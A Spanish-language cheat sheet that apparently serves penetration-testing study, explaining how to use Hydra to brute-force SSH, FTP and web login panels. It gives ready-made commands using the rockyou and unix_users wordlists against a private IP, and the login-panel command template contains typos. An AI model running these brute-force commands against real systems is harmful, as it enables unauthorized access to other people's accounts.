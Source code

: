Hydra es una herramienta para hacer ataques de fuerza bruta

Es necesario conocer o la contraseña o el usuario.
## Hydra conociendo el usuario

```sh title:"hydra para localizar contraseñas"
 hydra -l <usuarioconocido> -P {rutal al diccionario}://{protocolo}{IP}
 
# -P mayusucla si queremos buscar la password
# -p {password} si conocemos la password
# -l {usuario conocido} si conocemos el usuario
# -L mayuscula si queremos buscar el Usuario

# rockyou path: (diccionario para passroeds)
# /usr/share/wordlists/rockyou.txt

# protocolo
ssh
ftp

# ejemplos
hydra -l juan -P /usr/share/wordlists/rockyou.txt ssh://192.168.0.27
hydra -l juan -P /usr/share/wordlists/rockyou.txt ftp://192.168.0.27

```


## hydra conociendo la password
Cuando tenemos una contraseña pero desconocemos el usuario podemos usar Hydra para fuerza bruta:
```sh title:"hydra para localizar Usuarios"
 hydra -L {rutal al diccionario} -p <passwordUsuario>://{protocolo}{IP}
 
# -P mayusucla si queremos buscar la password
# -p {password} si conocemos la password
# -l {usuario conocido} si conocemos el usuario
# -L mayuscula si queremos buscar el Usuario

# unix_users path: (diccionario para Usuarios)
# /usr/share/wordlists/metasploit/unix_users.txt

# protocolo
ssh
ftp

# ejemplos
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -p alexis ssh://192.168.0.27
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -p alexis ftp://192.168.0.27

```


## hydra a panel login
Uso de Hidra en Paneles Login
Probar con el usuario admin

con Burtsuit podemos conocemos la ruta exacta del panel login
la forma de tramitar los datos y el typo de peticion

```sh title:"hydra para panelos login"
 hydra -t 64 -l admin -P /usr/share/wordlists/rockyou.txt http-post-from "{paht del panel login}:username=admin:passwore=^PASS^: {mensaje de error de panel login en caso de fallo}"
# t 64 poner 64 hilos
# -P mayusucla si queremos buscar la password
# -p {password} si conocemos la password
# -l {usuario conocido} si conocemos el usuario
# -L mayuscula si queremos buscar el Usuario

# unix_users path: (diccionario para Usuarios)
# /usr/share/wordlists/metasploit/unix_users.txt

# protocolo
ssh
ftp

# ejemplos
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -p alexis ssh://192.168.0.27
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -p alexis ftp://192.168.0.27

```